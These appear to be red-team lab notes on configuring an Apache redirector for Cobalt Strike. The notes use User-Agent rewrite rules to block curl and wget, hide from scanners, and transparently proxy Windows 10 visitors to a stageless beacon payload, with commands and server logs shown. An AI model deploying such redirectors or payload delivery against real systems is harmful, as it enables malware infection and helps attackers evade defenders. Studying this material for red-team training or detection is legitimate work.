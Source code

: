 Performing redirections based on a client's User Agent string can have a number of uses. We can redirect to specific browser exploits, block "script-style" agents such as curl, wget, Python and PowerShell; known AV scanners and sandboxes, and differentiate between desktop and mobile devices.

In this example, if the user agent contains "curl" or "wget", return a 403 forbidden.

RewriteEngine on

RewriteCond %{HTTP_USER_AGENT} curl|wget [NC]
RewriteRule .* - [F]

ubuntu@redirector-1 ~> curl -k https://localhost
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at localhost Port 80</address>
</body></html>

  

  Be aware of falling into traps that cause infinite loops by redirecting to another local URI which triggers the same rewrite rule over and over again.

Add a second RewriteCond and RewriteRule underneath - this is a very loose rule looking for Windows 10 devices.

RewriteEngine on

RewriteCond %{HTTP_USER_AGENT} curl|wget [NC]
RewriteRule .* - [F]

RewriteCond %{HTTP_USER_AGENT} "Windows NT 10.0" [NC]
RewriteRule .* https://localhost:8443/win-payload [P]

  

The [P] or Proxy directive is special because it proxies the request to our backend server in a way that's transparent to the requesting party.  Running curl in verbose mode, we don't see any indication that the response came from anywhere other than this Apache server.

ubuntu@redirector-1 ~> curl -v -k -A "Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko" https://localhost
[...snip...]
< HTTP/1.1 404 Not Found
< Date: Thu, 26 May 2022 15:50:29 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Content-Type: text/plain
< Content-Length: 0
<

  

Yet on the Team Server, we see a hit for `/win-payload`.

05/26 15:37:41 visit (port 443) from: 127.0.0.1
	Request: GET /win-payload
	Response: 404 Not Found
	Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko

  

Generate an x64 stageless exe and host it on the Cobalt Strike web server.

  
![[11. User Agent Rules.png]]

  

Attempting to access it from curl with its default user agent just get's blocked as before.

ubuntu@redirector-1 ~> curl -k -v https://localhost/win-payload
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at localhost Port 443</address>
</body></html>

  

But it works if we use a user agent string that we're not blocking.

ubuntu@redirector-1 ~> curl -k -A "Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko" https://localhost/win-payload.exe

05/27 15:48:45 visit (port 443) from: 127.0.0.1
	Request: GET /win-payload.exe
	page Serves /home/ubuntu/cobaltstrike/uploads/beacon.exe
	Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko